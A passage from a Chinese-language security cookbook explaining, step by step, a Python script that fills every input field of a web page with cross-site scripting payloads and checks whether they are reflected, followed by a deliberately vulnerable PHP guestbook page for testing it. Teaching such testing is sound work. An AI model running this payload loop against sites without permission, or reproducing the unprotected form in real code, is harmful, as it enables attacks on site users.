 我们的目标是攻击页面中的每个输入参数，因此接下来，我们阅读目标页面：

```py
initial = requests.get(url)
```

然后，我们为放入有效负载列表中的每个值创建一个循环：

```py
for payload in payloads:
```

然后，我们使用`BeautifulSoup`处理页面，这是一个库，允许我们根据页面的标签和定义特征雕刻页面。我们使用它来标识每个输入字段，并选择其名称，以便向其发送内容：

```py
for field in BeautifulSoup(initial.text, parse_only=SoupStrainer('input')):
          if field.has_attr('name'):
```

由于大多数网页中输入框的性质，任何名为`submit`的字段都不是跨站点脚本的目标，而是需要将`submit`作为一个值，以便我们的攻击成功。我们创建了一个`if`函数来检测是否是这种情况，使用`.lower()`函数可以轻松地解释可能使用的大写值。如果该字段不用于验证提交文件，我们将使用当前使用的有效负载进行填充：

```py
if field['name'].lower() == "submit":
              d[field['name']] = "submit"
            else:
              d[field['name']] = payload
```

我们使用`requests`库将现在分配的值发送到 post 请求中的目标页面，正如我们前面所做的：

```py
req = requests.post(url2, data=d)
```

然后，我们加载将呈现内容的页面，并准备将其用于检查结果函数：

```py
checkresult = requests.get(url3)
```

与之前的脚本类似，我们通过在页面上搜索字符串来检查字符串是否成功，如果成功，则打印结果。然后，我们为下一个有效负载重置字典：

```py
if payload in checkresult.text:
    print "Full string returned"
    print "Attack string: "+ payload
  d = {}
```

## 还有更多…

如前所述，您可以更改此脚本以包含许多结果或从包含多个值的文件中读取。Mozilla 的 FuzzDB，如下面的配方所示，包含大量这些值。

以下是一个可用于测试前几节中提供的脚本的设置。它们需要保存为工作所需的文件名，并与 MySQL 数据库一起存储注释。

以下是第一个名为`guestbook.php`的界面页面：

```py
<?php

$my_rand = rand();

if (!isset($_COOKIE['sessionid'])){
  setcookie("sessionid", $my_rand, "10000000000", "/xss/easy/");}
?>

<form id="contact_form" action='addguestbook.php' method="post">
  <label>Name: <input class="textfield" name="name" type="text" value="" /></label>
  <label>Comment: <input class="textfield" name="comment" type="text" value="" /></label>
  <input type="submit" name="Submit" value="Submit"/> 
</form>

<strong><a href="viewguestbook.php">View Guestbook</a></strong>
```